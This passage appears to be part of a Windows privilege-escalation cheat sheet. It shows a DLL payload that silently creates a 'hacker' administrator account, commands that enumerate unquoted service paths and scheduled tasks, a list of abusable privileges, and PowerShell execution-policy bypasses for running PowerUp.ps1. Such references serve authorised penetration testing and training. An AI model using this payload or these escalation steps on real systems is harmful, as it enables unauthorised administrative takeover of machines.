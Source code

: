 ```C++
		case DLL_PROCESS_ATTACH: // A process is loading the DLL.
		int i;
		i = system ("net user hacker hacker /add");
		i = system ("net localgroup administrators hacker /add");
		break;
		case DLL_THREAD_ATTACH: // A process is creating a new thread.
		break;
		case DLL_THREAD_DETACH: // A thread exits normally.
		break;
		case DLL_PROCESS_DETACH: // A process unloads the DLL.
		break;
	}
	return TRUE;
}
```
#### Unquoted Service Paths
- Find Unquoted Service Paths.
```powershell
# CMD
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
# Powershell
Get-WmiObject Win32_Service | Select-Object Name, PathName | Where-Object { $_.PathName -and $_.PathName -notmatch '^C:\\Windows\\' -and $_.PathName -notmatch '\"' }
```
#### Scheduled Tasks
- Review all properties of all scheduled tasks as list.
```powershell
schtasks /query /fo LIST /v
```
#### Windows Privilege Abuse
- `SeImpersonatePrivilege`
- `SeBackupPrivilege`
- `SeAssignPrimaryToken`
- `SeLoadDriver`
- `SeDebug`
#### Kernel Exploits
```bash
https://github.com/SecWiki/windows-kernel-exploits
```
#### Automation
- PowerUp.ps1
```powershell
# Set ExecutionPolicy to Bypass
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope CurrentUser -Force
# From Meterpreter Shell
execute -f powershell.exe -i -a "-ep Bypass . .\PowerUp.ps1; Invoke-AllChecks" 
# From Command Prompt 
powershell.exe -ep Bypass . .\PowerUp.ps1; Invoke-AllChecks
# Within PowerShell
. .\PowerUp.ps1; Invoke-AllChecks
```
- Local Exploit Suggester
```bash
https://github.com/bitsadmin/wesng
```
